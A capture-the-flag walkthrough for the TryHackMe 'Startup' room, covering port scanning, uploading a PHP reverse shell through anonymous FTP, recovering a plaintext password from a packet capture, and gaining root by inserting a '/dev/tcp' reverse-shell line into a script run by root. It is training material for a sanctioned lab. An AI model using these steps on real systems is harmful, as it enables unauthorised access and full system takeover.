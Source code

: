 # Startup

Welcome to another CTF walkthrough, here is the link to the TryHackMe room https://tryhackme.com/room/startup

In order to solve this challenge we will need some tools:
- nmap
- gobuster
- Wireshark
- netcat


If you have never heard of this tools i suggest you to study them first or complete the THM rooms, so you will have a better understeanding of what we are going to do.

Whenever you fell ready you can begin pressing START MACHINE;

To be able to interact with the machine, as THM explains you can either use their attack box or use your own kali linux machine by connecting it via openVPN.

Now that everything has been set let's start with the CTF.

The walktrought won't contain the answers, to not take away the fun, but a step by step tutorial to reach them, by following it you will just have to read the flag or he answers on your own machine.

<br/>
<br/>

## HOW TO START

A good way to approach all the CTFs is to always start by launching an nmap scan, you can use de -a- flag to scan all ports or avoid it to scan only the most common ports.

Let's run it
```bash
nmap -sV [MACHINE IP] 
```

​
And we get the following result:
```
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We find that port 80 is open and is running apache webserver, so let's paste the IP address in the browser and let's give a look around.

We can see a maintenance notice.

Let's check for hiddent directories with gobuster
```bash
gobuster dir -u http://IP -w /usr/share/wordlists/dirb/common.txt
```

We can see a directory called /files , visit it
- In notice.txt i have found a username: Maya, unfortunately isn't useful for us;
- A meme image;
- an ftp folder that seems empty.

Looks like we can't get any more info here, so let's try to log in the ftp server in anonymous mode.
```bash
ftp IP
```
 
Once prompted for the username and password simply write: anonymous <br/>
It works!

Inside the ftp server move to the ftp folder:
```bash
cd ftp
```

Than we can upload a reverse shell, set up a netcat listener and get our access into the machine.
 
in the ftp server:
```bash
post reverse_shell.php
```

On our machine:
```bash
nc -lvnp
```

To activate the reverse shell go on the website in the files directory, open the ftp folder and click on the file we you have just uploaded.

Once we have the shell use the ls command to see what's inside and we can see a file called 'recipe.txt' , open it with cat and we have the secret ingredient.

Going into the home directory we can see a user called lennie

<br/>
<br/>

## Logging-in as Lennie
Checking the different directories i have found something interesting in /incidents, a file called suspicious.pcapng.
It is a wireshark capture file, to download and analyze it:

On the target machine set up a simple http server with python
```bash
python3 -m http.server 8080
```

On your machine download the file with:
```bash
wget http://IP:8080/suspicious.pcapng
```
<br/>

Now we can open the file with Wireshark and start analyzing packets in the search of something usefull.

After a bit we can notice that there are many packs going in and out between two ports, we can select it and follow the tpc streams.

Once the new window opens scroll down a bit and you will see lennie trying to log in with a plain text password.

<br>

So now we have lennie's credential and we can connect via ssh as we have found that port 22 was open.
```bash
ssh lennie@IP
```

Once inside use the ls command to view inside his home directory and we can see the file user.txt, open it and sumbit the flag.
```bash
cat user.txt
```

<br/>
<br/>

## Privilege Escalation
It is time to find our way to access the root user.

First have fun looking around the directories and reading files as some of them are quite funny.

Looking inside the scripts folder there is an executable called `planner.sh`, lif we check this file permission's with `ls -l` we can see that it is owned by the root user.

The script calls for a file /etc/print.sh
Let's view inside... it only says "done!" , maybe we can modify it and insert a our own code; check the file permissions with:
```bash
ls -l /etc/print.sh
```

Lennie is the owner of the file so we can modify it.

We can insert a reverse shell, so when it will be executed we will have a shell as root.

So edit the file with:
```bash
nano /etc/print.sh
```
Past inside this reverse shell script:
```bash
sh -i >& /dev/tcp/IP/1234 0>&1
```

Remember to substitute the 'IP' with your own machine IP Address.

Set up a netcat listener on your machine:
```bash
nc -lvnp 1234
```

​<br>

And finally run the initial executable:
```bash
./planner.sh
```

You will receive the root's shell.
Look inside the directory with ls and open the file containing the root flag.
```bash
cat root.txt
```

<br/>
<br/>​

Congratulations, you have completed this room, hope you have enjoyed it.

If you want to see more CTFs Writeups explore the directory.

See you in the next challenge. 😊
